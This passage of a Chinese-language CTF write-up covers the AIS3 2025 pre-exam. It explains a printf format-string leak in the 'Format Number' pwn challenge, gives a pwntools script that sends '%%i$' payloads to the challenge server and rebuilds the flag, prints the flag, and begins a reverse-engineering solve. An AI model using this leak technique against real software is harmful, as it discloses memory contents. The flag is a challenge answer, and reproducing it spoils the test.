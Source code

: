> Author : Curious <br>
Solved: 54

### Problem

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Format Number\problem.png)

### Solve

題目做依序做 3 件事
1. 把 flag 讀到 stack 上
2. 檢查輸入只包含符號數字
3. `printf("Format number : %3$<input>d\n", str, str, number)`

從 `printf` 的 [man page](https://man7.org/linux/man-pages/man3/printf.3.html#:~:text=argument%20is%20required.-,%25,-A%20%27%25%27%20is%20written) 看到可以用 `%` 關閉第一個 conversion，接著自己加入 `$<i>%` 來 leak stack 上第 i 個 value，就可以在 stack 上找到 flag，這裡每個字元都是用 32 bit int 存

```python
from pwn import *

flag = ""
for i in range(20, 59):
    # p = process("./share/chal")
    p = remote("chals1.ais3.org", 50960)
    p.sendlineafter(b"What format do you want ? ", f"%%{i}$".encode())
    line = p.recvline()
    if b'-' in line:
        continue
    flag += chr(int(line.decode().strip().split('%')[1]).to_bytes(4, 'little')[0])
    p.close()
print(flag)
```

AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}

# Reverse

## AIS3 Tiny Server - Rev

> Author: pwn2ooown <br>
Solved: 164

### Problem

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\AIS3-Tiny-Server-Rev\problem.png)

### Solve

尋找後會發現一個 `check_flag()` function，是簡單的 XOR loop

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\AIS3-Tiny-Server-Rev\check_flag.png)
